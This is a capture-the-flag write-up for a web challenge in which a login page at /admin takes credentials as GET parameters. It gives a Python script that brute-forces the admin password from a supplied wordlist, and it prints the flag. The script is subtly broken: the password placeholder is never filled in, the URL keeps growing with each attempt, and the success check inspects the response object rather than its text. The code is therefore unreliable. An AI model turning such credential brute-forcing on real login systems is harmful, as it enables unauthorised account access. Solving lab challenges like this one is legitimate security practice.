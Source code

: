 
# Web: Guess my pass

Author: [some1hing](https://github.com/SOME-1HING/)
<br>

**Points**:  200
**Hint:**  None

**Challenge description:**
```
Guess my military grade super secret secret password.
```
#### Attachments:
passwords.txt
usernames.txt


## Solve

The login button in homepage leads to `/admin`.
As the challenge name and description hints, it requires a bruteforce attack on get parameter 'username' and 'password' in `/admin` endpoint.

Use Hydra/Burp Intruder to efficiently bruteforce using the given wordlists.

Python script
```python
#!/usr/bin/env python3
import requests

# bruteforcing the '/admin' page.
username = 'admin'
passwords = [i.strip() for i in open('passwords.txt','r').readlines()]

# login.php cause thats were the data is GET to.
URL = 'http://glitch.games:64500/login.php?'

for password in passwords:
	URL= URL+'username=admin&password={password}'
	r = requests.get(URL)
	if "Login failed. Incorrect username or password." not in r:
		print("Found pass:", password)
		break
```




#### Flag:
```plaintext
GLITCH{Th1s_Is_Sp4rt4!}
```
